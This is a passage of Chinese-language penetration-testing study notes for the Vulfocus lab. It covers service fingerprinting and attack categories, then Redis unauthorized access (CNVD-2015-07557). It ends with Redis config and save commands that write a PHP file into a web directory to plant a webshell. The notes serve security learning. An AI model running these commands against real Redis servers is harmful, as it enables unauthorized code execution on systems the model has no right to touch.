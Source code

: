 
---
# 前置知识：

1、复现环境：Vulfocus(官方在线的无法使用)

官方手册：https://fofapro.github.io/vulfocus/#/

搭建踩坑：（无法同步）

https://blog.csdn.net/m0_64563956/article/details/131229046

2、服务判断:

端口扫描：利用服务开启后目标端口开放判断

组合判断：利用搭建常见组合分析可能开放服务

信息来源：访问端口提示软件版本，应用信息等

强弱特征：如框架shiro强特征rememberMe,SpringBoot默认页面等

3、对象类别:

对服务进行类别划分，通过服务功能理解，如数据库有帐号密码就有爆破利用方法，也可以针对服务公开的CVE进行漏洞测试及服务常见的错误安全配置导致的未授权访问等。

4、利用方法:

主要集中在CVE漏洞，未授权访问，弱口令爆破等

# 一、Redis-未授权访问&CVE漏洞

默认端口：6379

Redis是一套开源的使用ANSI C编写、支持网络、可基于内存亦可持久化的日志型、键值存储数据库，并提供多种语言的API。Redis如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。

## 1、未授权访问：CNVD-2015-07557


### 写Webshell需得到Web路径

利用条件：Web目录权限可读写

```
config set dir /tmp #设置WEB写入目录

config set dbfilename 1.php #设置写入文件名

set test "<?php phpinfo();?>" #设置写入文件代码

bgsave #保存执行

save #保存执行

```
